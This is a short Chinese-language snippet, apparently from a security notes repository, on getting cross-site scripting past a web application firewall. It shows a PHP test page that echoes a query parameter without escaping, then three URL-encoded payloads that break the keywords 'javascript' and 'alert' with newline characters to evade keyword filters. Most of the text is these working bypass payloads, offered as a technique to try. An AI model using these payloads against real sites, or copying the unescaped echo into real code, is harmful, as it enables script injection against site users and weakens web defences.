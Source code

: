 ### 当xss被waf拦截的时候可以试试 ###

测试代码：
```php
<?php
function demo($zhi){
	echo $zhi;
}

if (isset($_GET['g'])){
	$g=$_GET['g'];
	demo($g);
}
?>
```

payload
```js
http://127.0.0.1/demoq.php?g=%3Ciframe/src=%27j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:prompt`1`%27%3E

http://127.0.0.1/demoq.php?g=%3Ca/href=%22j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:alert(1)%22%3Es%3C/a%3E

http://127.0.0.1/demoq.php?g=%3Ca/href=%22j%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A:a%0al%0aert(1)%22%3Es%3C/a%3E
```

总之用%0A（换行符）将关键字比如说：javascript alert ..等等分割

![](https://s2.ax1x.com/2019/04/21/Eiynne.png)

![](https://s2.ax1x.com/2019/04/21/EiyG1f.md.png)


